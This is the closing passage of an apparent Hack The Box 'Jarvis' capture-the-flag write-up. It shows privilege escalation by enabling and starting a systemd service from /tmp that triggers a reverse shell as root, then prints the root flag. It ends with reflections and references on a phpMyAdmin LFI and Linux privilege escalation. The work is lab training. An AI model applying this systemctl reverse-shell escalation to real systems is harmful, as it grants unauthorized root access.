 Once `shelly.sh` and `revshell_root.service` are in the `/tmp` directory, we enable the services through `systemctl`, and then start the service. Upon starting the service our reverse shell is triggered, and we're root!

```console
pepper@jarvis:/tmp$ systemctl enable /tmp/revshell_root.service
Created symlink /etc/systemd/system/multi-user.target.wants/revshell_root.service → /tmp/revshell_root.service.
Created symlink /etc/systemd/system/revshell_root.service → /tmp/revshell_root.service.
pepper@jarvis:/tmp$ systemctl start revshell_root.service
```

![rooted.](/posts/images/hack-the-box-jarvis-writeup/rooted.png)
**Figure 13:** Root Shell


```console
root@jarvis:~# cat root.txt
cat root.txt
d41d8cd98f00b204e9800998ecf84271
```


# Conclusion

I learned a lot from this box. I learned just how powerful a tool `sqlmap` is. I'm very new to using this tool, and apparently I could have used it to spawn a shell directly. Perhaps I wouldn't have needed to exploit phpmyadmin in this case? That's something I'll certainly look into next.

This box also taught me a little more about `systemctl` and the syntax to create and run new services.

I'm really interested in reading other people's writeups to see what other methods could be used to root this box. Jarvis seemed to have many different solutions, which is very cool. I'm excited to see if the LLMNR port came into play at all for anyone, what other methods people used to gain their initial foothold, and how many different ways there were for escalating privileges from `www-data` to `pepper`, and from `pepper` to `root`.


## References

1. [https://nvd.nist.gov/vuln/detail/CVE-2018-12613](https://nvd.nist.gov/vuln/detail/CVE-2018-12613)
2. [https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-LFI-Exploit/)
3. [https://security.stackexchange.com/questions/212427/why-doesnt-my-systemctl-command-work](https://security.stackexchange.com/questions/212427/why-doesnt-my-systemctl-command-work)
4. [https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html](https://packetstormsecurity.com/files/144749/Infoblox-NetMRI-7.1.4-Shell-Escape-Privilege-Escalation.html)
5. [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
